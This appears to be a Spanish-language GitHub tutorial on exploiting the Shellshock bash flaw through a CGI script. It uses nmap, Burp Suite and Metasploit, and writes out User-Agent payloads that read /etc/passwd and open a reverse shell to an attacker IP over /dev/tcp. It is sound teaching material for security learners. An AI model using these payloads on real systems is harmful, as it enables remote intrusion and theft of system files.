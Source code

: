 <h1 align="center">VULNERABILIDAD SHELLSHOCK</h1>

## **REQUISITOS**

La vulnerabilidad **Shellshock** se utiliza para explotar el bash (desde la versión 1.3), permitiendo la ejecución remota de código. Esto le permite al atacante obtener acceso al sistema a través de una reverse shell.

## **FORMAS DE REALIZAR EL ATAQUE**

- Manualmente con Burp Suite
- Automáticamente con metasploit

## **EJEMPLO**

Por ejemplo, en esta web podemos comprobar que hay un contador hacia atrás, por lo que tiene que haber un script corriendo por detrás para realizar la cuenta atrás:

![image](https://github.com/user-attachments/assets/a9c02697-e43e-42db-88a6-fb3013b17b58)

Si analizamos el código fuente de la página podemos comprobar que por detrás se ejecuta un script cgi llamado gettime.cgi y está ubicado en en el index de la web

![image](https://github.com/user-attachments/assets/3a9c9c8c-92bb-4f05-9fb5-196d70901b18)

![image](https://github.com/user-attachments/assets/2f935b90-01fd-46c4-9cee-37adb4932f54)

## **COMPROBACIÓN**

Para saber si es vulnerable a este ataque tenemos que comprobarlo con un script de nmap:

- `nmap \*ip\* --script=http-shellshock --script-args=”http-shellshock.uri=gettime.cgi”`

![image](https://github.com/user-attachments/assets/38bdd297-853a-4859-8719-8c30ff216f2a)

## **ATAQUE CON BURP SUITE**

Recargar la página donde se encuentra el script gettime.cgi y enviar la solicitud al Repeater.

En repeater, modificaremos el user-agent de la siguiente manera

- `User-Agent: () { :;}; echo; echo; /bin/bash -c 'cat /etc/passwd'`

![image](https://github.com/user-attachments/assets/08b79c37-525f-4cdc-a67e-85b2c9d02a5a)

Y nos devolverá lo siguiente:

![image](https://github.com/user-attachments/assets/9abc9968-abf0-455d-9528-a8af2d70188b)

Si queremos conseguir una reverse shell ponemos netcat a la escucha por el puerto 1234 y ejecutamos esta reverse shell en burp suite:

- `User-Agent: () { :;}; echo; echo; /bin/bash -c ‘bash -i >& /dev/tcp/&lt;attacker_ip&gt;/1234 0>&1’`

![image](https://github.com/user-attachments/assets/3a641b17-46eb-4f43-bb5b-b9b387c9e0fa)

## **ATAQUE CON METASPLOIT**

Para hacer uso de esta vulnerabilidad buscamos “shellshock” en metasploit. Tenemos dos módulos:

- apache_mod_cgi_bash_env (scanner)
- apache_mod_cgi_bash_env_exec (exploit)

Como ya sabemos que es vulnerable hacemos uso del exploit. Las opciones que tenemos que rellenar para conseguir una sesion de meterpreter son:

- RHOSTS
- set TARGETURI /gettime.cgi
- run
